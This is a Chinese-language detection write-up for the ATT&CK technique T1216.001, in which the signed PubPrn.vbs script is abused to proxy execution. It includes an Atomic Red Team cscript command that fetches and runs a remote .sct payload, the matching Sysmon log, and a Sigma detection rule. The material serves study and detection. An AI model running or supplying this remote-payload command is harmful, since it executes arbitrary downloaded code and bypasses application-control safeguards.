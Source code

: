 # T1216-001-win-签名脚本代理执行-PubPrn

## 来自ATT&CK的描述

攻击者可能会使用 PubPrn 来代理恶意远程文件的执行。PubPrn.vbs 是一个将打印机发布到 Active Directory 域服务的Visual Basic脚本。该脚本由 Microsoft 签名，通常通过Windows shell `Cscript.exe`. 例如，以下代码在指定域内发布打印机：`cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com`。

 攻击者可能会滥用PubPrn来执行托管在远程站点上的恶意负载。为此，攻击者可以设置第二个`script:`参数以引用托管在远程站点上的脚本文件 (.sct)。一个示例命令`pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct`. 此行为可能会绕过签名验证限制和不考虑滥用此脚本的应用程序控制。

在更高版本的 Windows (10+) 中，`PubPrn.vbs`已更新，防止从远程站点执行代理。这是通过将第二个参数中指定的协议限制为来完成的，也就是可用于通过 HTTP(S) 引用远程代码`LDAP://`的`script:`绰号。

## 测试案例

### 测试1 PubPrn.vbs Signed Script Bypass

执行已签名的PubPrn.vbs脚本，该脚本可以下载和执行任意有效载荷。
攻击命令，Windows命令行执行即可。

```yml
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```

remote_payload：<https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct>

## 检测日志

Windows 安全日志、Sysmon日志

## 测试复现

### 测试1 PubPrn.vbs Signed Script Bypass

```yml
C:\Users\Administrator.ZHULI>cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"
```

注意操作系统语言，语言不同，VBS脚本所在位置不同

## 测试留痕

Windows Sysmon日志

```yml
Process Create: 事件ID 1进程创建

RuleName: technique_id=T1059,technique_name=Command-Line Interface

UtcTime: 2022-01-11 08:05:07.983

ProcessGuid: {78c84c47-3a33-61dd-3924-000000000800}

ProcessId: 2000

Image: C:\Windows\System32\cscript.exe

FileVersion: 5.812.10240.16384

Description: Microsoft 

Product: Microsoft ® Windows Script Host

Company: Microsoft Corporation

OriginalFileName: cscript.exe

CommandLine: cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"

CurrentDirectory: C:\Users\Administrator.ZHULI\

User: ZHULI\Administrator

LogonGuid: {78c84c47-f665-61db-95da-440100000000}

LogonId: 0x144DA95

TerminalSessionId: 3

IntegrityLevel: High

Hashes: SHA1=0E3C0779D8EAAD3B00363D7890DDC8272B510D49,MD5=A45586B3A5A291516CD10EF4FD3EE768,SHA256=59D3CDC7D51FA34C6B27B8B04EA17992955466EB25022B7BD64880AB35DF0BBC,IMPHASH=2B44D2206B9865383429E9C1524F1CAC

ParentProcessGuid: {78c84c47-2489-61dd-f120-000000000800}

ParentProcessId: 4392

ParentImage: C:\Windows\System32\cmd.exe

ParentCommandLine: "C:\Windows\system32\cmd.exe" 

ParentUser: ZHULI\Administrator
```

## 检测规则/思路

### Sigma规则

```yml
title: 使用PubPrn.vbs脚本绕过检测
status: experimental
author: 12306Br0
date: 2022/01/11
references:
    - attack.t1216.001
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 1 #sysmon日志，进程创建
        CommandLine: 
             - '*\Printing_Admin_Scripts\*\pubprn.vbs' #进程命令行
             - 'https:*'
             - '*.sct' 
    condition: selection
level: low
```

### 建议

监视脚本进程，例如`cscript`，以及脚本的命令行参数，例如可用于代理恶意文件执行的PubPrn.vbs。

## 参考推荐

MITRE-ATT&CK-T1216-001

<https://attack.mitre.org/techniques/T1216/001/>

Atomic-red-team-T1216.001

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1216.001/T1216.001.md>
